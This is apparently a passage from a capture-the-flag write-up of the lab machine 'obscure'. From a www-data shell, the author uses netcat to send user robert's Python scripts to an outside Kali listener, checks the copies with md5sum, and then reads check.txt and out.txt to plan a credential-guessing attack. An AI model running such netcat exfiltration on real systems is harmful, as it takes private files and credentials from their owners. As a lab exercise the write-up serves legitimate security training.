 Back to our pal robert....
```
www-data@obscure:/home/robert$ cd BetterSSH
www-data@obscure:/home/robert/BetterSSH$ nc 10.10.14.36 9000 < BetterSSH.py

www-data@obscure:/home/robert/BetterSSH$ md5sum BetterSSH.py
91f9b055de93ea34b0d789dd4d57c523  BetterSSH.py
```

It's always good to verify file integrity just in case something was lost or corrupted during transfer.
On our Kali workstation, break out of our netcat session and verify the md5sum matches.
```
Ncat: Connection from 10.10.10.168.
Ncat: Connection from 10.10.10.168:39768.
^C
kali@kali:~$ md5sum BetterSSH_copy.py
91f9b055de93ea34b0d789dd4d57c523  BetterSSH_copy.py
```

And there's on more file of interest....
```
www-data@obscure:/home/robert$ nc 10.10.14.36 9000 < SuperSecureCrypt.py
www-data@obscure:/home/robert$ md5sum SuperSecureCrypt.py
md5sum SuperSecureCrypt.py
3c2b0c8126d8b0fbd043c6a2c270f7ab  SuperSecureCrypt.py
```

on our kali workstation
```
kali@kali:~$ nc -nlvp 9000 > SuperSecureCrypt_copy.py
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9000
Ncat: Listening on 0.0.0.0:
Ncat: Connection from 10.10.10.168.
Ncat: Connection from 10.10.10.168:39842.
^C
kali@kali:~$ md5sum SuperSecureCrypt_copy.py
3c2b0c8126d8b0fbd043c6a2c270f7ab  SuperSecureCrypt_copy.py
```

SuperSecureCrypt.py is the most interesting find. This is the base code for encrypting AND decrypting data. The true significance here is that a control is provided for us in the form of the check.txt and out.txt files. Copy them from robert's home directory! We can use this as a validity check in a credential stuffing attack.
```
www-data@obscure:/home/robert$ cat check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct!

www-data@obscure:/home/robert$ cat out.txt
¦ÚÈêÚÞØÛÝÝ×ÐÊßÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐêÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäèÎÍÚÎëÑÓäáÛÌ×v

www-data@obscure:/home/robert$ md5sum out.txt
7c8230e2429e85d94a8c5604e726c013  out.txt

www-data@obscure:/home/robert$ md5sum check.txt
efeb69264c227272d9d3efcf8f58ed9f  check.txt
```
